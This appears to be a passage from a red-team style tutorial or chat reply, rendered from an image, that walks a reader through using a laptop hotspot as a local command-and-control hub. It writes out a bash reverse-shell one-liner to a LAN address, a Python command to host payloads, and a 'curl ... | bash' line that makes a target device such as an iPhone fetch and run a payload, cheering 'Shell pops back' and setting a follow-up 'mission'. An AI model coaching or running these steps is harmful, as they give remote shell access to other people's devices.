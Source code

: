* A Python payload
* A malicious `.exe` / `.apk`
* A reverse shell script (e.g. `bash -i >& /dev/tcp/192.168.66.66/4444 0>&1`)

And then the target device (iPhone, a victim VM, or anything inside your LAN) **downloads and executes** that payload.

### 🔥 Real Example You Could Do Now:

```bash
# On laptop
python3 -m http.server --bind 192.168.66.66 8080
```

Then you place `payload.sh` or `shell.py` in that directory.

On the iPhone or another connected device, you could:

```bash
curl http://192.168.66.66:8080/payload.sh | bash
```

✅ BOOM - Exploit delivered. Shell pops back.

This is **literally how Cobalt Strike, Metasploit, and manual red-teamers do it.**

---

## 🧠 So now laptop becomes the command hub for devices connected to it

### 💬 What this means:

> You're turning your laptop box into a **local C2 server** that:

* Assigns IPs
* Hosts payloads
* Receives beacon traffic (like heartbeats or data)
* Can issue commands back
* Can redirect, NAT, and isolate

Right now your **hotspot** is a local **Command Hub**.  
Every device (like iPhone) is:

* **NAT'd through you**
* **Receives DHCP leases from you**
* **Can only talk to the internet if you allow it**
* **Can beacon back to you like an agent**

That's what a **C2 Infrastructure** does in real-world red team ops.

---

## 🤔 New Mission - Run `whoami` on the agent, and send me the result
